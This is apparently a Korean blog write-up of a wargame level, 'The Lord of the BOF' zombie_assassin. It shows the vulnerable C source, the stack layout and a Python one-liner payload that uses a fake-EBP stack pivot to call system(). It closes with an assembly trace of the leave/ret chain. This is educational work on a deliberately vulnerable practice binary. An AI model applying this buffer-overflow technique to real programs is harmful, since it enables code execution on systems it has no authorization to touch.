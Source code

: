 ```yaml
---
title: The Lord of the BOF - assassin -> zombie_assassin
slug: lob-assassin
date: 2017-01-04 17:14:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


코드는 이렇다.

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - zombie_assassin
    - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
    char buffer[40];

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    if(argv[1][47] == '\xbf')
    {
        printf("stack retbayed you!\n");
        exit(0);
    }

    if(argv[1][47] == '\x40')
    {
        printf("library retbayed you, too!!\n");
        exit(0);
    }

    // strncpy instead of strcpy!
    strncpy(buffer, argv[1], 48);
    printf("%s\n", buffer);
}
```

구조상

01 ~ 40: 버퍼

41 ~ 44: sfp

45 ~ 48: ret

이렇게 되고, 이 공간만 내가 쓸 수 있다.

푸는 건 FEBP를 검색해서 풀었다.

sfp에 내가 쓰고 싶은 스택 주소를 넣어주면 leave 명령어가 실행될 때
ebp에 내가 입력한 스택 주소가 입력된다.
그리고 ret 주소를 leave ret이 있는 주소로 지정해준다.

이게 무슨 말이냐 하면...

일단 페이로드부터 보자

```sh
./zombie_assassin `python -c 'print "A"*4 + "\xe0\x8a\x05\x40" + "B"*4 + "\xf9\xbf\x0f\x40" + "C"*24 + "\xa0\xfa\xff\xbf" + "\xdf\x84\x04\x08"'`
```

0xbffffaa0은 AAAA 문자열이 있는 주소다.

0x080484df는 leave와 ret 명령어가 있는 주소다.

실행 과정을 잘 써보면 이렇게 된다.

```nasm
main:
    push ebp (sfp에 ebp PUSH)
    mov ebp, esp
leave:
    mov esp, ebp
    pop ebp (sfp에서 0xbffffaa0 POP)
ret:
    pop eip (ret에서 0x080484df POP)
leave:
    mov esp, ebp (이제 스택 위치는 0xbffffaa0)
    pop ebp (0xbffffaa0에서 0x41414141 POP)
ret:
    pop eip (0xbffffaa4에서 0x40058ae0 POP)
system:
    push ebp (0xbffffaa4에 0x41414141을 PUSH)
    mov ebp, esp
leave:
    mov esp, ebp
    pop ebp (0xbffffaa4에서 0x41414141 POP)
ret:
    pop eip (0xbffffaa8에서 0x42424242 POP)
0x42424242:
    ???
```
